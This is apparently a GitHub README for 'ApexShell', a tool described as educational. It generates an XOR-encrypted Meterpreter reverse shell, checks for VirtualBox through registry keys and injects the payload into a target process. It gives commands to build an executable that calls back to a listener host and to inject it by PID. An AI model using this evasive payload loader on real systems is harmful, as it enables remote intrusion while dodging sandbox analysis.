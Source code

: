 # ApexShell

## Purpose
**ApexShell** is an educational tool demonstrating process injection, XOR encryption, and VirtualBox anti-VM techniques. **For educational use only in authorized environments.** Unauthorized use is illegal.

## Disclaimer
Use only on systems you own or have explicit permission to test. The developers are not liable for misuse.

## Project Structure
```
APEXSHELL
├── build/
│   └── hack.bin                  # Generated raw payload
├── src/
│   ├── injector.cpp              # Process injection code
│   └── temp_secure_injector.cpp  # Temporary C++ file
└── ApexShell.py                  # Payload generation script
```

## Features
- Generates Windows x64 Meterpreter reverse shell with `msfvenom`.
- Encrypts payload with XOR.
- Detects VirtualBox via registry checks.
- Injects payload using `NtCreateThreadEx`.

## Prerequisites
- Python 3.x
- Metasploit Framework (`msfvenom`)
- MinGW-w64 (`x86_64-w64-mingw32-g++`)

## Installation
1. Clone/download the project.
2. Install Metasploit and MinGW-w64:
   ```bash
   sudo apt-get install mingw-w64 metasploit-framework 
   ```

## Usage
```bash
python ApexShell.py -l <LHOST> -p <LPORT> [-o <OUTPUT_EXE>]
```
- `-l, --lhost`: Listening host IP (required).
- `-p, --lport`: Listening port (required).
- `-o, --output`: Output executable (default: `secureshell.exe`).
- `-h, --help`: Show help.

### Example
```bash
python ApexShell.py -l 192.168.1.100 -p 4444 -o build/myshell.exe
```

Run injector:
```bash
.\myshell.exe <PID>
```

## How It Works
1. **Payload Generation**: Creates and encrypts reverse shell with XOR.
2. **Compilation**: Embeds payload/key into C++ template and compiles.
3. **Injection**: Injects payload into target process with anti-VM checks.

## Anti-VM Checks
Detects VirtualBox via:
- `HKEY_LOCAL_MACHINE\HARDWARE\ACPI\FADT\VBOX__`
- `SystemProductName` and `BiosVersion` in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SystemInformation`

## Troubleshooting
- **msfvenom not found**: Install Metasploit.
- **Compilation errors**: Verify MinGW-w64 setup.
- **Injector fails**: Check PID.

## Educational Goals
Learn:
- Process injection (`VirtualAllocEx`, `NtCreateThreadEx`).
- Payload generation with `msfvenom`.
- XOR encryption.
- Anti-VM registry checks.

## Warning
**Unauthorized use is illegal.** Test only in authorized environments.
